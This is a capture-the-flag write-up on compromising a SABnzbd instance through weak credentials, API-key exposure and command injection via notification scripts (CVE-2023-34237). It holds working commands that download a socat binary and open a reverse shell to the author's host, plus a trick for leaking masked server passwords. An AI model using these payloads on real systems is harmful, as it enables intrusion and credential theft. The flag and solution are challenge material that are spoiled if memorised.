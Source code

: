 # Website

On port `62177` there was a website that asked for credentials.

![](screenshots/1.png)

Based on the Www-Authenticate header realm parameter `SABnzbd`, the service can be found: <https://sabnzbd.org/>.

The site is protected with a weak credential. Creating a [wordlist.txt](workdir/wordlist.txt) by mutating the realm `SABnzbd` finds the password: `sabnzbd:sabnzbd`. It is quite weak and can be guessed as well.

![](screenshots/2.png)

Logging in reveals the SABnzbd website.

![](screenshots/3.png)

# Logs

Checking the logs the config can be seen, but the passwords are masked out.

![](screenshots/4.png)

Checking the [API](https://sabnzbd.org/wiki/configuration/3.7/api) directly has the same mask. The API key can be found in the settings. 

![](screenshots/5.png)

```
http://10.10.7.12:62177/api?mode=get_config&output=json&apikey=6bcff13331cb434ebc10f48c421aed29&name=%2Fusr%2Flib%2Fpython3.10%2Fsite-packages
```

![](screenshots/6.png)

# 0day

The exact version can be seen and the sourcecode is public.

![](screenshots/7.png)

Searching for `subprocess.Popen`, the `build_and_run_command` at `misc.py:1110` can be found. 

<https://github.com/sabnzbd/sabnzbd/blob/8a2b875/sabnzbd/misc.py#L1110>

![](screenshots/9.png)

This is used by the Noficiations. It can be used to run custom scripts, with (almost) arbitrary parameters.

![](screenshots/8.png)

Notice that at py files, it is checking if they have executable permission, and if they have, they will be ran with python. Otherwise it is just running it, which also requires executable permission implicitly.

The custom script directory can be changed at will.

![](screenshots/10.png)

While there is a possibility to set permissions at downloading files.

![](screenshots/11.png)

The executable permissions are stripped at `filesystem.py:614`.

![](screenshots/12.png)

Apart from this, the directories can be listed by pressing the browse button or tinkering with the API.

![](screenshots/13.png)

Pressing the `Test Notification` button can be used to test the settings.

![](screenshots/14.png)

It is located at `notifier.py:349` in the source code.

![](screenshots/15.png)

Which in turn calling it through the API with fixed `SABnzbd`, `Other`, `Messages` parameters.

![](screenshots/16.png)

With the help of [GTFOBins](https://gtfobins.github.io/#), we can hijack the executions with this 3 fixed parameters and the already available binaries on the system. It is splitting the parameter at space characters, so that character should be avoided.

The program `c98` can be used.

![](screenshots/17.png)

Testing with the `ls`, the stderr can be seen in the output.

![](screenshots/18.png)

With the help of `awk`, the spaces can be avoided. The stdout is not visible on successful run, but based on side effects (e.g. http request on our side), it can be seen it ran successfully.

![](screenshots/19.png)

This can be combined with downloading a backdoor and starting it.

```bash
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("curl\x20http://10.8.0.18:8000/socat\x20-o\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("chmod\x20777\x20/tmp/socat")}
c89 SABnzbd Other Messages -wrapper awk,BEGIN{system("/tmp/socat\x20tcp:10.8.0.18:80\x20exec:/bin/sh\x2cpty\x2cstderr\x2csetsid\x2csigint\x2csane")}
```
Turned out this is a [0day](https://github.com/sabnzbd/sabnzbd/issues/2549) ([CVE-2023-34237](https://github.com/sabnzbd/sabnzbd/security/advisories/GHSA-hhgh-xgh3-985r)) and not the intended solution

# Finding the flag

Using the reverse shell, the flag is in the config [sabnbzbd.ini](workdir/sabnbzbd.ini), in the masked parts.

![](screenshots/20.png)

# Flag
`HCSC{sh1v3r_mE_7imbers!_nowadays_y0u_c4nt_7rust_4n_3XP05ed_sab_instance}`

# Without 0day
The 0day is not required for the challenge (ofc). 

Normal functionality can be used to read passwords. The host can be changed and the SSL turned off, and using the `Test` button without saving. This initiates a request to the new host with the existing and masked data. <https://github.com/sabnzbd/sabnzbd/issues/2455#issuecomment-1427099417>

![](screenshots/21.png)

Based on the [rfc4643](https://www.rfc-editor.org/rfc/rfc4643), the NNTP server has to answer `200` then `381` codes, then the plaintext password can be acquired.

![](screenshots/22.png)

There are multiple servers, the correct one returns the flag.

![](screenshots/23.png)




